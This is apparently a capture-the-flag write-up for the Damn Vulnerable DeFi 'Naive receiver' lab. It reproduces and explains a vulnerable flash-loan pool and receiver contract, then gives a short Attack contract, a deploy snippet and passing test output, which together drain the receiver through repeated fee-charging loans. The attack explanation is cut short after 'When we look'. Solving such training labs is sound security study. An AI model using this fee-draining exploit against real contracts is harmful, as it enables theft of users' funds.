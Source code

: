 <img src="https://github.com/wasny0ps/Damn-Vulnerable-DeFi/blob/main/src/2.png">

# Target Contract Review

Given contracts.

**FlashLoanReceiver.sol**

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "solady/src/utils/SafeTransferLib.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import "./NaiveReceiverLenderPool.sol";

/**
 * @title FlashLoanReceiver
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract FlashLoanReceiver is IERC3156FlashBorrower {

    address private pool;
    address private constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;

    error UnsupportedCurrency();

    constructor(address _pool) {
        pool = _pool;
    }

    function onFlashLoan(
        address,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata
    ) external returns (bytes32) {
        assembly { // gas savings
            if iszero(eq(sload(pool.slot), caller())) {
                mstore(0x00, 0x48f5c3ed)
                revert(0x1c, 0x04)
            }
        }
        
        if (token != ETH)
            revert UnsupportedCurrency();
        
        uint256 amountToBeRepaid;
        unchecked {
            amountToBeRepaid = amount + fee;
        }

        _executeActionDuringFlashLoan();

        // Return funds to pool
        SafeTransferLib.safeTransferETH(pool, amountToBeRepaid);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    // Internal function where the funds received would be used
    function _executeActionDuringFlashLoan() internal { }

    // Allow deposits of ETH
    receive() external payable {}
}
```
This contract is a Flash Loan receiver, which means it can borrow funds temporarily from a lending pool and execute actions with those funds within a single transaction.

`onFlashLoan()` : This function is the callback function that is called when the flash loan is executed. It takes the flash loan details as parameters: the address of the token being borrowed, the amount of the loan, the fee charged by the lending pool, and additional data.

The function first checks if the caller of the function is the lending pool. If not, it reverts the transaction to prevent unauthorized access. Next, it checks if the token being borrowed is ETH. If not, it reverts the transaction as this contract only supports borrowing ETH.

The `_executeActionDuringFlashLoan` function is a placeholder internal function that can be overridden by inheriting contracts to define the actions to be performed with the borrowed funds. After executing the actions, the contract transfers the borrowed amount plus the fee back to the lending pool using the `SafeTransferLib.safeTransferETH` function.

The contract also includes a `receive()` function that allows the contract to receive ETH deposits.

**NaiveReceiverLenderPool.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashLender.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import "solady/src/utils/SafeTransferLib.sol";
import "./FlashLoanReceiver.sol";

/**
 * @title NaiveReceiverLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract NaiveReceiverLenderPool is ReentrancyGuard, IERC3156FlashLender {

    address public constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;
    uint256 private constant FIXED_FEE = 1 ether; // not the cheapest flash loan
    bytes32 private constant CALLBACK_SUCCESS = keccak256("ERC3156FlashBorrower.onFlashLoan");

    error RepayFailed();
    error UnsupportedCurrency();
    error CallbackFailed();

    function maxFlashLoan(address token) external view returns (uint256) {
        if (token == ETH) {
            return address(this).balance;
        }
        return 0;
    }

    function flashFee(address token, uint256) external pure returns (uint256) {
        if (token != ETH)
            revert UnsupportedCurrency();
        return FIXED_FEE;
    }

    function flashLoan(
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external returns (bool) {
        if (token != ETH)
            revert UnsupportedCurrency();
        
        uint256 balanceBefore = address(this).balance;

        // Transfer ETH and handle control to receiver
        SafeTransferLib.safeTransferETH(address(receiver), amount);
        if(receiver.onFlashLoan(
            msg.sender,
            ETH,
            amount,
            FIXED_FEE,
            data
        ) != CALLBACK_SUCCESS) {
            revert CallbackFailed();
        }

        if (address(this).balance < balanceBefore + FIXED_FEE)
            revert RepayFailed();

        return true;
    }

    // Allow deposits of ETH
    receive() external payable {}
}
```

The NaiveReceiverLenderPool contract is a flash loan pool that allows users to borrow ETH using the flash loan mechanism.

`maxFlashLoan()` : It returns the maximum amount that can be borrowed in a flash loan, while the flashFee function calculates the fee to be charged for a flash loan.

`flashFee()` : It returns the fee that needs to be paid for a flash loan. In this case, it returns a fixed fee of 1 ETH.

`flashLoan()` : It provides the flash loan functionality. It takes the borrower's address, the token to be borrowed (in this case, only ETH is supported), the amount to be borrowed, and any additional data required by the borrower.

Inside the function, it first checks if the token is supported (only ETH is supported in this case). It then transfers the requested amount of ETH to the borrower's address. After that, it calls the borrower's onFlashLoan function, passing the necessary parameters. If the borrower's callback function returns the CALLBACK_SUCCESS value, it checks if the contract's balance is greater than or equal to the initial balance plus the fixed fee. If not, it reverts the transaction.


The `receive()` function is a fallback function that allows the contract to receive ETH deposits.

Overall, this contract provides a basic implementation of a flash loan provider, allowing users to borrow ETH from the contract as long as it is returned within the same transaction.

Challenge's message:

> There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH. A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.
Take all ETH out of the user’s contract. If possible, in a single transaction.

# Suberting

When we look


```solidity
pragma solidity ^0.8.0;

import "../naive-receiver/NaiveReceiverLenderPool.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";

contract Attack {
    constructor(address payable _pool, address payable _receiver){
        NaiveReceiverLenderPool pool = NaiveReceiverLenderPool(_pool);
        address ETH = pool.ETH();
        for(uint256 i=0; i<10; i++){
            pool.flashLoan(IERC3156FlashBorrower(_receiver), ETH, 1, "0x");
        }
    }
}
```

```js
const AttackFactory = await ethers.getContractFactory('Attack', deployer);
attack = await AttackFactory.deploy(pool.address, receiver.address);
```

```js
  [Challenge] Naive receiver
    ✔ Execution (294ms)


  1 passing (2s)

Done in 2.88s.
```
